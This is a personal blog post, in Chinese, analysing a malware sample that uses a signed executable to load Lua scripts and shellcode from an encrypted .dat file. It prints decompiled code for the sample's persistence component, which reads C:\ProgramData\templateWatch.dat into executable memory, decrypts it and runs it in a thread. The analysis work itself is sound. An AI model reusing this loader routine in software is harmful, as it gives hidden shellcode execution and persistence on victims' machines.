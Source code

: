 ```yaml
---
layout: post
title: "记一次给自己应急"
date: 2024-04-12 18:19:58 +0800
categories: reverse-engineering
---
```


很久没分析样本了，这次朋友发了个样本过来我看很有意思就想分析一下。但是终究是太自信，也是嫌麻烦，都没有把样本扔虚拟机分析，本机打开 ida 就开始逆向了。然后不出意外的我就手抖不小心把样本跑了起来，于是就有了这篇文章。

样本是一个带签名的 exe，附带了一个 `.dat` 文件，这是最开始吸引我的地方。因为众所周知，一般白加黑都是一个签名 exe 带个黑 dll，而这样本只有个 dat 文件，所以肯定有点意思。经过一通逆向后在样本里找到了很多 lua 相关的字符串，我大概猜到这个白加黑是靠 lua 脚本实现的白加黑了。网上搜了一下这个样本的信息同样确认了这个样本是从 dat 文件提取 lua 脚本执行的，作者会在 lua 脚本中插入执行shellcode 的代码，而这个 dat 文件是一个加密的压缩包。

知道了大概流程就简单了，直接在相关内存加载相关代码下断 dump 下来 shellcode 做分析。从 dump 出的 shellcode 中翻了一下找到了 mz 头，那么估计就是个内存加载 pe 的代码了：

![](/assets/images/Pasted_image_20240412173558.png)

不过为了安全起见我还是用调试器跟了一遍，确定就是内存加载的代码，然后直接提取出来被内存加载的 pe 分析

```
HANDLE sub_10001120()
{
  HANDLE result; // eax
  HANDLE v1; // eax
  DWORD (__stdcall *lpStartAddress)(LPVOID); // [esp+Ch] [ebp-224h]
  WCHAR String1[262]; // [esp+10h] [ebp-220h] BYREF
  LPVOID lpBuffer; // [esp+21Ch] [ebp-14h]
  DWORD NumberOfBytesRead; // [esp+220h] [ebp-10h] BYREF
  HANDLE hFile; // [esp+224h] [ebp-Ch]
  BOOL v7; // [esp+228h] [ebp-8h]
  SIZE_T dwSize; // [esp+22Ch] [ebp-4h]

  lstrcpyW(String1, L"C:\\ProgramData\\templateWatch.dat");
  result = CreateFileW(String1, 0x80000000, 0, 0, 3u, 0x80u, 0);
  hFile = result;
  if ( result )
  {
    dwSize = GetFileSize(hFile, 0);
    if ( dwSize >= 0x200 && (lpBuffer = VirtualAlloc(0, dwSize, 0x3000u, 0x40u)) != 0 )
    {
      NumberOfBytesRead = 0;
      v7 = ReadFile(hFile, lpBuffer, dwSize, &NumberOfBytesRead, 0);
      if ( hFile )
      {
        CloseHandle(hFile);
        hFile = 0;
      }
      if ( v7 )
      {
        if ( NumberOfBytesRead == dwSize )
        {
          lpStartAddress = (DWORD (__stdcall *)(LPVOID))((char *)lpBuffer + 256);
          if ( sub_10001020((BYTE *)lpBuffer + 256, dwSize - 256, (BYTE *)lpBuffer, 0x100u) )
          {
            CreateThread(0, 0, lpStartAddress, 0, 0, 0);
            v1 = GetCurrentProcess();
            WaitForSingleObject(v1, 0xFFFFFFFF);
          }
        }
      }
      if ( hFile )
        CloseHandle(hFile);
      result = (HANDLE)VirtualFree(lpBuffer, 0, 0x8000u);
    }
    else
    {
      result = (HANDLE)CloseHandle(hFile);
    }
  }
  return result;
}
```

一览无余的从文件读取 shellcode 然后再加载，然后检查了下本人电脑的这个路径，发现并没有这个文件，safe 了。再问了下朋友确认这个只是整个样本的一部分，应该只是用来维持权限的，安装后门的代码在另外的位置，虚惊一场！

---

我是太想搞安全了，但是没时间，而且区块链这边搞的也不是很顺利。不过看来二进制这块我还没有太生疏，逆完这样本说实话还挺开心的，感觉自己宝刀未老啊。
